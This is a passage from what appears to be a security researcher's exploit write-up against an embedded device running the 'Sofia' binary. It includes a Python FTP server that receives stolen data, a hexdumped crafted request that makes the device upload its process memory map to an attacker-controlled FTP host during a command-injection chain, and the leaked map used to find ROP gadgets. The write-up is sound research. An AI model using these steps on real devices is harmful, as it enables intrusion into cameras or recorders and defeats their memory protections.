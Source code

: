 ```
        self.server = None
        self._stop_event = threading.Event()
        
    def run(self):
        authorizer = DummyAuthorizer()
        authorizer.add_user("uname", "pword", "FTPTestDir", perm="elradfmw")
        handler = FTPHandler
        handler.authorizer = authorizer
        self.server = FTPServer((self.host, self.port), handler)
        
        while not self._stop_event.is_set():
            self.server.serve_forever(timeout=0.2, blocking=True)
            
    def stop(self):
        self._stop_event.set()
        if self.server:
            self.server.close_all()
```

Make sure there is a **Test** directory within **FTPTestDir** otherwise the upload will not work, and also make sure you send the FTP request in the same session as the command injection requests, as the login will cause the copied **maps** file to be overwritten with the actual log again.

You can trigger the upload with the following request:

```
00000000  ff 01 00 00  9f 86 01 00  9f 86 01 00  00 00 d8 07  │····│····│····│····│
00000010  90 00 00 00  7b 22 4e 61  6d 65 22 3a  20 22 46 54  │····│{"Na│me":│ "FT│
00000020  50 22 2c 20  22 46 54 50  22 3a 20 7b  22 53 65 72  │P", │"FTP│": {│"Ser│
00000030  76 65 72 22  3a 20 7b 22  4e 61 6d 65  22 3a 20 22  │ver"│: {"│Name│": "│
00000040  31 39 32 2e  31 36 38 2e  31 38 38 2e  34 22 2c 20  │192.│168.│188.│4", │
00000050  22 50 6f 72  74 22 3a 20  39 38 39 38  2c 20 22 55  │"Por│t": │9898│, "U│
00000060  73 65 72 4e  61 6d 65 22  3a 20 22 75  6e 61 6d 65  │serN│ame"│: "u│name│
00000070  22 2c 20 22  50 61 73 73  77 6f 72 64  22 3a 20 22  │", "│Pass│word│": "│
00000080  70 77 6f 72  64 22 7d 7d  2c 20 22 53  65 73 73 69  │pwor│d"}}│, "S│essi│
00000090  6f 6e 49 44  22 3a 20 22  30 78 30 30  30 30 30 30  │onID│": "│0x00│0000│
000000a0  30 34 22 7d                                         │04"}│
000000a4
```

And now we have the **maps** file for the process, giving us the addresses of all of the shared objects, allowing us to find gadgets.

```
=== MEMORY MAP ===
00008000-0068b000 r-xp 00000000 1f:03 54         /usr/bin/Sofia
00693000-006cb000 rw-p 00683000 1f:03 54         /usr/bin/Sofia
006cb000-0095b000 rw-p 00000000 00:00 0 
010c8000-01382000 rw-p 00000000 00:00 0          [heap]
aff02000-aff37000 rw-s 82d3e000 00:0a 131        /dev/mmz
aff37000-aff38000 ---p 00000000 00:00 0 
aff38000-b0037000 rw-p 00000000 00:00 0          [stack:800]
b0037000-b0038000 ---p 00000000 00:00 0 
b0038000-b0137000 rw-p 00000000 00:00 0          [stack:799]
b0137000-b0138000 ---p 00000000 00:00 0 
b0138000-b0237000 rw-p 00000000 00:00 0          [stack:795]
b0237000-b0238000 ---p 00000000 00:00 0 
b0238000-b0337000 rw-p 00000000 00:00 0          [stack:781]
b0337000-b0338000 ---p 00000000 00:00 0 
b0338000-b0437000 rw-p 00000000 00:00 0          [stack:780]
b0437000-b0438000 ---p 00000000 00:00 0 
b0438000-b0537000 rw-p 00000000 00:00 0          [stack:764]
b0537000-b0538000 ---p 00000000 00:00 0 
b0538000-b0737000 rw-p 00000000 00:00 0          [stack:743]
b0737000-b07a0000 rw-s 83a52000 00:0a 131        /dev/mmz
b07d5000-b07d6000 ---p 00000000 00:00 0 
```